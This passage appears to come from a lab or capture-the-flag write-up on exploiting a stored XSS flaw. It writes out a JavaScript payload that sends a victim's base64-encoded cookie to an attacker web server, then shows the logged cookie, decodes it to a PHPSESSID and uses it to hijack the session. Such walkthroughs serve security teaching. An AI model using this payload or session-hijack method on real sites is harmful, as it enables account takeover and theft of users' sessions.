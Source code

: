 Because the Stored XSS continuously requests our `script.js` file, we simply need to keep modifying that file to execute JavaScript in the victim’s browser.

We run the following code to create the `script.js` file in the same folder our web server is sharing.

```bash
$ echo 'x=new XMLHttpRequest;x.open("GET","http://[IP-atacante]?cookie="+btoa(document.cookie));x.send();' > script.js
```

In my case:

```bash
$ echo 'x=new XMLHttpRequest;x.open("GET","http://192.168.1.181?cookie="+btoa(document.cookie));x.send();' > script.js
```

We then receive a user’s cookie in base64 format in our web server logs.

```bash
192.168.1.117 - - [21/Mar/2025 23:46:44] "GET /script.js HTTP/1.1" 304 -
192.168.1.117 - - [21/Mar/2025 23:46:44] "GET /?cookie=UEhQU0VTU0lEPXNkM3EzZWVnMHY3Y2wzcGhpbTVyMjFpcWFo HTTP/1.1" 200 -
```

We decode the base64 of the cookie and see that it is the same session cookie that was created upon our login, but with a different value.

```bash
$ echo UEhQU0VTU0lEPXNkM3EzZWVnMHY3Y2wzcGhpbTVyMjFpcWFo | base64 -d
PHPSESSID=sd3q3eeg0v7cl3phim5r21iqah  
```

We log in with our initial test user in the browser (if needed, create another user via the registration form). Once logged in, from the browser developer tools in the `Storage > Cookies` tab, we modify the session cookie `PHPSESSID` with the one we received on our web server, and then refresh the page.
